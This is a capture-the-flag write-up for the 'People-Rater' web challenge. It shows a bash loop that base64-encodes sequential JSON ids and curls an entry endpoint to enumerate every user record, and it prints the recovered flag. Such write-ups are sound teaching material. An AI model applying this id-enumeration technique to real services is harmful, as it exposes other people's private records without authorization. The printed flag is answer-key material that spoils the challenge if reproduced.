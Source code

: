 *Always good to satisfy your PTSD :smile: .. Moving on*

----
## People-Rater : FLAG-3


Description: 
```
The grinch likes to keep lists of all the people he hates. This year he's gone digital but there might be a record that doesn't belong!

Challenge-Url: https://hackyholidays.h1ctf.com/people-rater
```

### Understanding the Web-App

This was a simple web app that hits an API endpoint to get a list of users in a paginated manner. 
So 
* https://hackyholidays.h1ctf.com/people-rater/page/1 -> `first 5 users`
* https://hackyholidays.h1ctf.com/people-rater/page/2 -> `users 5-10`
<br>...

Next, there is an API [https://hackyholidays.h1ctf.com/people-rater/entry?id=eyJpZCI6OH0=](https://hackyholidays.h1ctf.com/people-rater/entry?id=eyJpZCI6OH0=) to get information about the user provided by parameter `id`. (id is base64 encoded JSON of {"id":8} )


So the first step would be to enumerate information about each user.

### Solution

I wrote a simple bash script to enumerate all users from id 1 to 20. Basically do a curl request for each userId from id [1-20] and print the result

```bash
>> sapra@MacBook-Pro ~ % for i in $(seq 1 20)
do
x=`echo {\"id\":${i}} | base64`
echo "------------------------"
echo -n "> UserInfo for ID=${i} -> "
curl "https://hackyholidays.h1ctf.com/people-rater/entry?id=${x}";
echo "\n";
done

------------------------
> UserInfo for ID=1 -> {"id":"eyJpZCI6MX0=","name":"The Grinch","rating":"Amazing in every possible way!","flag":"flag{b705fb11-fb55-442f-847f-0931be82ed9a}"}
> UserInfo for ID=2 -> {"id":"eyJpZCI6Mn0=","name":"Tea Avery","rating":"Awful"}
...
```

> user information of userId=1 [https://hackyholidays.h1ctf.com/people-rater/entry?id=eyJpZCI6MX0=](https://hackyholidays.h1ctf.com/people-rater/entry?id=eyJpZCI6MX0=) contains flag

> FLAG-3: flag{b705fb11-fb55-442f-847f-0931be82ed9a}
